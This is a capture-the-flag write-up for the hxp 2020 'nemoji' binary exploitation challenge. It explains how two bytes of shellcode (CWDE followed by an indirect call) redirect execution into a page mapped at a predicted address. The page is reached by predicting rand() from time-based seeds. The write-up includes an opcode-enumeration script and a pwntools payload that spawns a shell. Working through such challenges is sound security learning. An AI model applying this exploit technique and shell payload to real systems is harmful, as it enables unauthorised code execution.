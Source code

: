 # hxp 2020 - nemoji
## Overview
This challenge was made by taking the binary from the `no-eeeeeeeeeeeemoji` challenge from Dragon CTF 2020 and patching some places in the binary. I suggest reading the AWESOME [Write Up of the original challenge by r3billions](https://r3billions.com/writeup-no-eeeeeeeeeeeemoji/) first, so that you have a sense of what's happening in the binary.  
The patches made to the binary are:  
* It does not print `/proc/maps` anymore, so we don't know where **[vdso]** is
* It does not apply the `% 1000` manipulation to the `rand()`, so that the random value could be any number
* It does not make sure that the allocated page is under 0x10000 - note that mmap() will fail in that case!
* It does not perform the sys_write syscall before exiting

I was working with my friend [@nivye](https://github.com/nivye), who brought a significant reinforcement since he worked on the original challenge in Dragon CTF.  

## Finding the Right Opcode
So this whole challenge is based on one thing - find the right opcode(s) to execute when your shellcode is ran. You have 2 bytes - good luck. We can't use the **[vdso]** trick now, so we have to think differently. We also need to take into account that we are mapped to high address pages now.  
@nivye prepared a full list of the possible opcodes we could run:  
```
from itertools import product
from pwn import disasm
f = open('all_poissible_opcodes.txt', 'w')
for opcode in product(range(256), repeat=2):
	bin1, bin2 = opcode
	out = f'bin1: {bin1:02x}, bin2: {bin2:02x}\n'
	out += disasm(bytes([bin1, bin2, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90]), arch='amd64', vma=0xa0a0a200)
	out += '\n'
	f.write(out)
f.close()
```
Notice the `vma` - it tells the disasm to assume the code is loaded at the address - assuming the page we allocated was at `0xa0a0a000`. This was added for better vieweing different opcodes such as `call   QWORD PTR [rip+0xffffffff90909090]    # 0x31313298` so disasm shows the destination address in a prettier way.  
Actually, to be fair, first we didn't have enough `0x90`s so we didn't see all the available opcodes... Took as too long to spot it and fix it, but eventually we did 😁  
We scrolled through the opcodes for hours, searching for **the one** but each time we would find something, we would see that something wouldn't allow us to use it... For example:  
```
a0a0a200:   ff 25 90 90 90 90       jmp    QWORD PTR [rip+0xffffffff90909090]        # 0x31313298
```
If we manage to allocate 2 maps with a differnece of `0x90909000`, we would execute from the higher map, when the lower map is all 0s, so this opcode will jump to address `0`. That is great, but we can't mmap to 0...  
After a long search, we finally found something... I have to say, I don't think this is how we were intended to solve this challenge, but it's a cool solution anyway :)  

## 64bit -> 32bit -> Luck
The solution that we found is consists of 2 opcodes:  
```
a0a0a200:   98                      cwde   
a0a0a201:   ff 90 90 90 90 90       call   QWORD PTR [rax-0x6f6f6f70] 
```
When we are being ran `eax` contains `0xdeafbeefdeadbeef`. The [CWDE](http://www.cwde.de/) *(WTF it has its own website??)* opcode sign-extends `AX` to `EAX`. In reality, it does a little something extra - it 0s out the high 32 bit of `RAX`, so after the opcode runs: `RAX = 0x00000000ffffbeef`.  
The second opcode takes the QWORD stored in `[rax-0x6f6f6f70] = 0x90904f7f` and jumps there. This is kinda cool. If we manage to mmap ourselves to `0x90904000`, then we control the `0x7f7` offset!  
All we would need to do then is put `0x0000000090904000` in that offset and the code will jump to the beginning of our payload - there we can `asm(shellcraft.amd64.sh(), arch='amd64'))` and win.  
Taking the relevant parts directly from r3billions's Write Up, this is the revised payload part:  
```
payload = str(asm(shellcraft.amd64.sh(), arch='amd64'))
payload += '\x90' * (512 - len(payload))
payload += '\x98\xff'
payload += '\x90' * (0xf7f - len(payload))
payload += '\x00\x40\x90\x90\x00\x00\x00\x00'
payload += '\x90' * (4096 - len(payload))
```
But... We have to wait for rand() to return 0x90904...

## Brute Force vs. Prediction
Fortunately, the program doesn't do much with the random except `srand(NULL)` and `rand()` - so we can actually predict all of the pages that will get mapped, for each second that we connect to the server. We need to take into account 2 issues:  
* Timing - we are limited to 5 minutes, so we only get a couple of thousands of tried per conenction (3800 tries measured on my computer against the real server)
* Small values of rand() - if by any chance rand() will return a value under 16, the program will crash  

So we need to brute force `srand(timestamp)` with 3800 tries and make sure that we don't get a small value.  
Our prediction script predicted that we would get `0x90904` if we connect to the server at exactly `Sun Dec 20 04:42:38 2020 GMT`, which is `seed = 1608439358` and iterate 785 times.  

## Flag
With all that said, @nivye was a little more adventerous than me and just ran the script with multiple instances. He got the flag in a couple of minutes 😁  
![Flag!](https://github.com/amelkiy/write-ups/blob/master/hxp-2020/nemoji/flag.png?raw=true)  
To this day I don't know why the random prediction was wrong, but fraknly, it saved us from staying up until 6:42 am (Israel time) so.. Thanks @nivye! 😜  
